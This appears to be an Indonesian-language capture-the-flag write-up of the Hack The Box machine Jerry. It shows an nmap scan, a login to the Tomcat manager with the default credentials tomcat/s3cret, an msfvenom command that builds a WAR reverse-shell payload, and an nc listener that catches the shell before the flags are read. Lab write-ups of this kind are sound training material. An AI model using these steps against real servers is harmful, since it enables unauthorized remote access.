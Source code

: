 Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials.

![Pasted image 20241202025212](https://github.com/user-attachments/assets/5aa7defb-4229-4ebf-9645-ef3e51d75c2f)

Seperti biasa pertama lakukan port scanning.
```
❯ nmap -sC -sV -T3 10.10.10.95 -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2024-12-02 00:17 WIB
Nmap scan report for 10.10.10.95
Host is up (0.066s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.57 seconds
```

Dari hasil port scanning, kita dapatkan informasi bahwa hanya ada 1 port yang terbuka yaitu port 8080 dengan service Apache Tomcat versi 7.0.88.
![Pasted image 20241202002138](https://github.com/user-attachments/assets/a3a9abb4-b996-453f-b0b1-385454b84751)



Ketika button ‘Manager App’ diklik akan meminta username dan password seperti gambar di bawah ini.

![Pasted image 20241202002156](https://github.com/user-attachments/assets/1bd2dbc7-7389-4df2-90ac-f45bca8ca601)


Dan apabila memasukkan kredensial yang salah maka membuka page /manager/html seperti berikut.

![Pasted image 20241202002518](https://github.com/user-attachments/assets/352c2e7d-3ee5-44fa-a03b-9bb4f1b569f7)


Dari /manager/html kita dapatkan kredensial user.
`Username : tomcat`
`Password : s3cret`

Login kembali dengan kredensial di atas maka akan terbuka page berikut.

![Pasted image 20241202023301](https://github.com/user-attachments/assets/33d5fb67-f11e-41a3-adaf-6c04dbfad02b)
![Pasted image 20241202023342](https://github.com/user-attachments/assets/0514122a-6dc6-4967-bfe9-3733f60c406f)


Dari sini, kita ketahui bahwasanya web ini menerima .WAR file, WAR file (Web Application Resource atau Web application ARchive) merupakan sebuah file yang digunakan untuk mendistribusikan kumpulan JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages (HTML dan sejenisnya) ke dalam suatu web.

Untuk exploitnya, bisa kita ikuti [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat), bisa menggunakan metasploit atau manual dengan msfvenom, kali ini saya akan menggunakan msfvenom agar sekalian belajar. Jangan lupa sesuaikan LHOST dan LPORT sesuai dengan IP dan Port listenernya. IPnya bisa dilihat dengan command ip a di bagian tun0 dan portnya bebas.

![Pasted image 20241202024917](https://github.com/user-attachments/assets/4a13fa38-1f25-4c8f-8334-a05ab636f89f)

Berikut command msfvenomnya untuk menghasilkan revshell.
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LPORT> -f war -o revshell.war
```

Setelah itu jalankan listener dengan command `nc -lvnp <port>` sesuaikan port dengan port listenernya, lalu upload file revshell.war pada menu deploy di /manager/html tadi, setelah berhasil terupload akan seperti ini, ![[Pasted image 20241202024145.png]]

Buka tabnya dan listener akan mendapatkan koneksi.

![Pasted image 20241202024252](https://github.com/user-attachments/assets/f6b0f59d-c6d7-4539-a393-049fe28b0a99)

Setelah itu cari lokasi flag user.txt dan root.txt.
```
cd ..\Users\Administrator\Dekstop\flags
```

Di dalam folder flags terdapat file yang bernama 2 for the price of 1.txt, untuk printnya bisa gunakan command type seperti gambar di bawah

![Pasted image 20241202024624](https://github.com/user-attachments/assets/adad957d-3ce0-46c5-bd14-4b48e2bcd7dc)

Dan voila kita dapatkan flag user dan rootnya.
